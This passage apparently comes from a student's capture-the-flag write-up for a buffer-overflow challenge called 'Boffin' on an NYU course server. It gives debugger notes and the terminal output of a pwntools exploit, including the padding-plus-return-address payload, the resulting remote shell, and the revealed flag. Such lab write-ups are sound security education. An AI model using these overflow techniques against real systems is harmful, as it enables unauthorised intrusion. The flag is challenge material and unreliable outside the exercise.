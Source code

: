 `0x00007ffff7e17603 in do_system (line=0x4007a4 "/bin/sh")`
That's because we made it to give shell, but there's a register issue


I set a breakpoint there and it gets us there, I just wonder if I;ve overwritten other things

So what if I try this remotely?

YAY I AM A GOD!
```
┌──(kali㉿kali)-[~/Desktop/4-Week]
└─$ python3 Boffin_Remote_Exploit.py 
[+] Opening connection to offsec-chalbroker.osiris.cyber.nyu.edu on port 1337: Done
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA'
b'AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x9d\x06@\x00\x00'
/home/kali/Desktop/4-Week/Boffin_Remote_Exploit.py:27: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  p.recvuntil("Hey! What's your name?")
[*] Switching to interactive mode

Hi, AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA\x9d\x06@
$ whoami
pwn
$ ls
boffin
flag.txt
$ cat flag.txt
flag{access_granted_thats_real_cool}
[*] Got EOF while reading in interactive
```